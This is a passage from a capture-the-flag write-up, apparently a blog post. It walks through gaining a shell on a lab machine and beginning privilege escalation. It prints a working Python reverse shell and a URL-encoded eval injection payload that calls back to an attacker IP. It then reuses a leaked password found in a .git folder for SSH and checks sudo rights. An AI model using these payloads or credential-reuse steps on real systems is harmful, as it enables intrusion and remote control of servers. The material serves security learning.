 Setup a netcat listener.

    nc -lvnp 1337

We can find the python reverse shell payload from here [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Craft a reverse shell payload. From the above cheatsheet provided, remember is convert “IP” and “/bin/sh” into ‘IP’ and ‘/bin/sh’ since the double inverted comma will break the code.

    import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.45',1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('/bin/sh')

Concat it with our injection payload and URL encode it.

    '%2beval(compile("import+socket,os,pty%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(('10.10.14.45',1337))%3bos.dup2(s.fileno(),0)%3bos.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bpty.spawn('/bin/sh')","a","single"))%2b'

![](https://cdn-images-1.medium.com/max/2000/1*vBgTODpaNwGw7A7czDPTfw.png)

Send the request using burp suite and we can get the reverse connection from the server serving us the shell.

![](https://cdn-images-1.medium.com/max/2000/1*WQNSnT1mtVMdajR-VArzNQ.png)

From here, we can get the user flag.

## Privilege Escalation

In the current directory where the shell is accessed, we can find a .git folder which contains a credentials for user **cody**.

![](https://cdn-images-1.medium.com/max/2000/1*954pDFTwLZBLrJBD8MRPOw.png)

Let’s try to SSH into the system using credentials **cody:jh1usoih2bkjaspwe92,** since it has port 22 open.

![](https://cdn-images-1.medium.com/max/2000/1*_cLs7CbgBt8nA8GMn5FqHA.png)

We were not able to login into the system as user **cody** because the user **cody** does not exists on the machine. On trying the same password for user **svc**, we were able to login into the system.

List down the commands that user **svc** can run into the system as root. Provide the password **jh1usoih2bkjaspwe92** when asked during **sudo -l**

![](https://cdn-images-1.medium.com/max/2000/1*wXgMp8fOiTS9S3WZ5l9Naw.png)

We can see that the user svc can run **/usr/bin/python3 /opt/scripts/system-checkup.py** as a root user.

Run the script with random parameters.
